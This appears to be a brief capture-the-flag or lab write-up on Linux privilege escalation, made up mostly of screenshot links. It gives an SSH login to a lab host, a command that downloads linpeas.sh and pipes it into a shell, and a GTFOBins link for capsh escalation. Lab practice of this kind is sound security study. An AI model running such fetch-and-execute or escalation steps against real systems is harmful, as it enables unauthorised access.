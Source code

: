 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ea8bb2a1-d219-4b52-b5ff-60d736ae896e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ed8b855a-da50-4f56-8005-74704b1b071d)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/36ebaec9-deac-4c19-8010-deed024f20bb)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1d30f8f4-e596-4b7f-8257-e1e6047b618c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3698e806-8978-493e-a674-35d1f21eebfc)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f133e0c8-4cb4-44fa-b5c5-f698d0a7621f)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bd607e03-a3f1-45a9-b95c-8b01fb1302c2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5a2f3f9f-7211-435c-9967-043591b1bdac)

```
ssh Don@62.173.140.174 -p 28322
```
https://delinea.com/blog/linux-privilege-escalation

```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dba87bc6-56a2-409a-afbe-0af3ea8ba45c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c18803c6-e536-4a23-b0a9-2cf775cf449c)

https://gtfobins.github.io/gtfobins/capsh/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6b39cc8c-3e27-4de8-8ec2-7857e2e77d73)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/74a00e03-333b-4d63-a070-808c30949369)


